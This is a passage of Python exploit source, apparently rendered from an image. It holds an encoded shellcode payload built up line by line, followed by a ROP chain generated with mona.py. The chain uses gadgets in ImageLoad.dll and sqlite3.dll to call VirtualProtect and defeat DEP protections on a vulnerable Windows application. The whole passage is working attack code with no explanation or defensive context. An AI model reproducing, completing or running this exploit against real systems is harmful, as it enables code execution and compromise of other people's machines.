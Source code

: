 ```python
Shellcode4 += "\x74\x46\x38\x4e\x6b\x66\x38\x67\x54\x33\x31"
Shellcode4 += "\x49\x43\x52\x46\x4e\x6b\x66\x6c\x32\x6b\x6e"
Shellcode4 += "\x6b\x62\x78\x45\x4c\x36\x61\x48\x53\x6c\x4b"
Shellcode4 += "\x33\x34\x6c\x4b\x75\x51\x48\x50\x4c\x49\x33"
Shellcode4 += "\x74\x65\x74\x65\x74\x63\x6b\x71\x4b\x73\x51"
Shellcode4 += "\x66\x39\x33\x6a\x52\x71\x6b\x4f\x6d\x30\x61"
Shellcode4 += "\x4f\x61\x4f\x32\x7a\x6c\x4b\x44\x52\x58\x6b"
Shellcode4 += "\x6e\x6d\x53\x6d\x70\x6a\x75\x51\x4e\x6d\x6d"
Shellcode4 += "\x55\x6f\x42\x67\x70\x73\x30\x57\x70\x36\x30"
Shellcode4 += "\x62\x48\x36\x51\x6c\x4b\x42\x4f\x6f\x77\x69"
Shellcode4 += "\x6f\x68\x55\x4f\x4b\x4c\x30\x6c\x75\x79\x32"
Shellcode4 += "\x52\x76\x45\x38\x69\x36\x4a\x35\x6f\x4d\x6f"
Shellcode4 += "\x6d\x4b\x4f\x68\x55\x45\x6c\x43\x36\x61\x6c"
Shellcode4 += "\x57\x7a\x6f\x70\x79\x6b\x6d\x30\x42\x55\x73"
Shellcode4 += "\x35\x4f\x4b\x72\x67\x55\x43\x54\x32\x50\x6f"
Shellcode4 += "\x53\x5a\x37\x70\x71\x43\x4b\x4f\x59\x45\x52"
Shellcode4 += "\x43\x62\x4d\x65\x34\x44\x6e\x31\x75\x30\x78"
Shellcode4 += "\x51\x75\x37\x50\x74\x6f\x63\x53\x47\x50\x62"
Shellcode4 += "\x4e\x70\x65\x54\x34\x57\x50\x53\x45\x31\x63"
Shellcode4 += "\x52\x45\x61\x62\x45\x70\x51\x79\x70\x68\x70"
Shellcode4 += "\x61\x53\x53\x50\x6b\x30\x6c\x35\x31\x43\x52"
Shellcode4 += "\x50\x73\x35\x70\x70\x4d\x32\x45\x53\x44\x53"
Shellcode4 += "\x51\x43\x43\x70\x70\x62\x4c\x72\x4f\x62\x49"
Shellcode4 += "\x63\x44\x31\x34\x65\x61\x65\x70\x76\x4f\x61"
Shellcode4 += "\x51\x71\x54\x30\x44\x71\x30\x34\x66\x45\x76"
Shellcode4 += "\x57\x50\x52\x4e\x63\x55\x31\x64\x67\x50\x30"
Shellcode4 += "\x6c\x52\x4f\x73\x53\x31\x71\x30\x6c\x62\x47"
Shellcode4 += "\x61\x62\x42\x4f\x30\x75\x44\x30\x47\x50\x51"
Shellcode4 += "\x51\x50\x64\x72\x4d\x30\x69\x72\x4e\x42\x49"
Shellcode4 += "\x61\x63\x32\x54\x71\x62\x63\x51\x72\x54\x70"
Shellcode4 += "\x6f\x71\x62\x44\x33\x75\x70\x63\x59\x71\x78"
Shellcode4 += "\x35\x31\x55\x33\x62\x4b\x32\x4c\x50\x61\x32"
Shellcode4 += "\x42\x51\x63\x37\x50\x56\x4f\x53\x71\x50\x44"
Shellcode4 += "\x50\x44\x43\x30\x41\x41"


def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        # 0x00000000,  # [-] Unable to find gadget to put 00000201 into ebx
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0xFFFFFDFE,  # -202
        0x100231d1,  # NEG EAX # RETN [ImageLoad.dll]
        0x1001da09,  # ADD EBX,EAX # MOV EAX,DWORD PTR SS:[ESP+C] # INC DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]|   {PAGE_EXECUTE_READ}
        0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
        0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0x1004de84,  # &Writable location [ImageLoad.dll]
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0x61c832d0,  # ptr to &VirtualProtect() [IAT sqlite3.dll]
        0x1002248c,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]
        0x61c0a798,  # XCHG EAX,EDI # RETN [sqlite3.dll]
        0x1001d626,  # XOR ESI,ESI # RETN [ImageLoad.dll]
        0x10021a3e,  # ADD ESI,EDI # RETN 0x00 [ImageLoad.dll]
        0x100218f9,  # POP EBP # RETN [ImageLoad.dll]
        0x61c24169,  # & push esp # ret  [sqlite3.dll]
        0x10022c4c,  # XOR EDX,EDX # RETN [ImageLoad.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
```
